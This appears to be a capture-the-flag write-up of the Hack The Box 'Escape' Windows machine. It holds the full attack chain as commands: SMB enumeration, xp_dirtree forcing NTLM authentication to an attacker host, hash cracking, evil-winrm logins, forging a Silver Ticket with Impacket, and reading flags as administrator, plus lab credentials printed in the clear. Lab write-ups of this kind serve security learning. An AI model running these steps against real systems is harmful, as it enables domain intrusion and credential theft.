



# [Escape](https://app.hackthebox.com/machines/escape/)

```bash
nmap -p- --min-rate 10000 10.10.11.202 -Pn
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -Pn 
```


From nmap scan result, I need to add this ip address into '**/etc/hosts**' file

Let's start enumeration of SMB shares via `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.202 -u guest -p '' --shares
```


Let's connect `Public` share via `smbclient` tool.
```bash
smbclient //10.10.11.202/Public -N
```


I read this PDF file and find sensitive information which is default credentials.


PublicUser: GuestUserCantWrite1

Let's connect to MSSQL via `mssqlclient.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```


I cannot execute system commands, to do this, I need to enable via `enable_xp_cmdshell`, but it doesn't work.


But I can do `SMB Relay` attack by executing `xp_dirtree` to attacker host, then I can read NTLM via `responder` tool.

1.First, we need to execute below command to start LISTENING to catch NTLM hashes.
```bash
responder -I tun0
```


2.Then execute below command to send `dir` request to attacker's machine.
```bash
EXEC xp_dirtree '\\10.10.14.2\share', 1, 1
```


Hola, I grabbed user's NTLM hash.


Let's crack this via `hashcat` tool.
```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




That's credentials of `sql_svc` user.

sql_svc:REGGIE1234ronnie


Let's connect via `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'
```


While I am doing enumeration for SQLServer's LOGS for directory called 'C:\SQLSERVER\Logs', I find a file called 'ERRORLOG.BAK'.



I found clear-text credentials.

ryan.cooper: NuclearMosquito3

Let's login into machine via `evil-winrm`.

user.txt


For privilege escalation, I try to do `Silver Attack`. I will use password of `sql_svc` user.

To create a Silver Ticket, an attacker needs:
1.The NTLM hash of the password for the service account
2.The SID of the domain The service principle name (SPN) associated with the account.


Let's create NTLM hash of password 'REGGIE1234ronnie'.

```bash
iconv -f ASCII -t UTF-16LE <(printf "REGGIE1234ronnie") | openssl dgst -md4
```


NTLM HASH=>1443ec19da4dac4ffc953bca1b57b4cf

Let's get Domain's SID via `Get-ADDomain` command of `powershell`.

```bash
Get-ADDomain | fl DomainSID
```




DomainSID=>S-1-5-21-4078382237-1492182817-2568127209


Let's crack `Silver Ticket` via `ticketer.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn MSSQLSvc/dc.sequel.htb:1433 administrator
```


Let's add this ticket `administrator.ccache` into `klist` sessions.

```bash
KRB5CCNAME=administrator.ccache klist
```


Then login into MSSQL via this ticket.

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -k -no-pass dc.sequel.htb
```


**MOST IMPORTANT THING!** There is a problem called 'Clock SKEW', that's why we need to setup Time via `ntpdate` command for our target.

```bash
ntpdate dc.sequel.htb
```


I am administrator.


As I administrator from this [blog](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/), I can read all flags together, but I read alreay `user.txt`, it's time to read `root.txt`.


**Reminder!** To get administrative shell, I need to enable cmdshell via `enable_xp_cmdshell`, then execute whatever commands I want via this syntax `xp_cmdshell {command}`

```bash
SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
```

root.txt

